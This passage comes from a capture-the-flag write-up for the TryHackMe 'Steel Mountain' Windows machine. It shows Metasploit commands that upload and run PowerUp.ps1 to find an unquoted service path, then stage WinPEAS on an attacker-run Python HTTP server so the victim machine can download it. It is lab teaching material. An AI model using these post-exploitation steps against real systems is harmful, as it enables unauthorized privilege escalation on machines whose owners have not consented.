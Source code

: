 ```
# Within a metasploit session and specify where your powerup.ps1 script is.
upload /home/kail/Desktop/THM/steel_mountain/PowerUp.ps1
```

Lets get a powershell shell within metasploit using the following commands.
```
load powershell
powershell_shell
```

Load PowerUp.ps1 script and execute its method `Invoke-AllChecks`
```
. .\PowerUp.ps1
Invoke-AllChecks
```

PowerUp script finds that there is an `Unquoted Service Path` service file that we can restart called `AdvancedSystemCareService9`. This is a highly probable avenue to escalate our privileges.

### WinPEAS

Lets download and use another privilege escalation script called Windows Privilege Escalation Awesome Scripts or WinPEAS for short.

You can download the WinPEAS .exe from the repo link below 32bit (x86) or 64bit (x64)

[WinPEAS github repo](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/winPEAS/bin)

Start up a simple python3 http server where you download the WinPEAS file so that we can download it to our victim system using a powershell command.
```
sudo python3 -m http.server 80
```

![WinPEAS powershell download](/assets/images/vh_steel_mountain/steel-mountain-download.jpg)
